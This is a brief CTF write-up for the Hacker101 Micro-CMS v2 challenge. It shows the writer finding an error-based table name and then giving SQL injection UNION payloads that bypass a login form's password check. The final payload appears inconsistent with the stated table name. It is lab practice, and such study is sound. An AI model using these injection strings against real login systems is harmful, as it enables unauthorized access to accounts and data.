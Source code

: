 ## Hacker101 CTF
### 1) Micro-CMS v2

Trying out different basic loads to check if something gets triggered:
![[Pasted image 20221216203410.png]]
Even writing `'` in the username field (not the psw) triggered the following error:
![[Pasted image 20221216203616.png]]
From this, we can tell the name of the database 'admins' so we can run a UNION attack:

`' UNION SELECT "xyz" as password FROM admins where ''='';--` and "xyz" in the psw field

>[!faq] Why does it not work if we use some other ending?
>It works with:
>`Username: ' UNION SELECT 'xyz' AS password FROM admins WHERE '1'='1'
>Can you find some other payload?

`' UNION SELECT "admin" as users FROM passwords where ''='';--`